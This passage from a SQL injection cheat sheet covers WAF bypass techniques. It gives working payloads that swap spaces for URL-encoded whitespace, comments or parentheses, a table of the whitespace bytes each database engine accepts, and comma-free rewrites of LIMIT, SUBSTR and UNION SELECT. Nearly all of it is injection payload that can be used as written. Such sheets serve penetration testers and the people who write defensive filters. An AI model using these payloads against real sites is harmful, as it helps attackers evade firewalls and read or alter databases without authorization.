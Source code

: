 ## WAF Bypass

### White spaces alternatives

No Space (%20) - bypass using whitespace alternatives

```sql
?id=1%09and%091=1%09--
?id=1%0Dand%0D1=1%0D--
?id=1%0Cand%0C1=1%0C--
?id=1%0Band%0B1=1%0B--
?id=1%0Aand%0A1=1%0A--
?id=1%A0and%A01=1%A0--
```

No Whitespace - bypass using comments

```sql
?id=1/*comment*/and/**/1=1/**/--
```

No Whitespace - bypass using parenthesis

```sql
?id=(1)and(1)=(1)--
```

Whitespace alternatives by DBMS
| DBMS | ASCII characters in hexadicimal |
| ---- | ------------------------------- |
| SQLite3 | 0A, 0D, 0C, 09, 20 |
| MySQL	5 | 09, 0A, 0B, 0C, 0D, A0, 20 |
| MySQL	3	| 01, 02, 03, 04, 05, 06, 07, 08, 09, 0A, 0B, 0C, 0D, 0E, 0F, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 1A, 1B, 1C, 1D, 1E, 1F, 20, 7F, 80, 81, 88, 8D, 8F, 90, 98, 9D, A0 |
| PostgreSQL | 0A, 0D, 0C, 09, 20 |
| Oracle 11g | 00, 0A, 0D, 0C, 09, 20 |
| MSSQL | 01, 02, 03, 04, 05, 06, 07, 08, 09, 0A, 0B, 0C, 0D, 0E, 0F, 10, 11, 12, 13, 14, 15, 16, 17, 18, 19, 1A, 1B, 1C, 1D, 1E, 1F, 20 |

Example of query where spaces were replaced by ascii characters above 0x80
```
♀SELECT§*⌂FROM☺users♫WHERE♂1☼=¶1‼
```
 
### No Comma
 
Bypass using OFFSET, FROM and JOIN

```sql
LIMIT 0,1         -> LIMIT 1 OFFSET 0
SUBSTR('SQL',1,1) -> SUBSTR('SQL' FROM 1 FOR 1).
SELECT 1,2,3,4    -> UNION SELECT * FROM (SELECT 1)a JOIN (SELECT 2)b JOIN (SELECT 3)c JOIN (SELECT 4)d
```

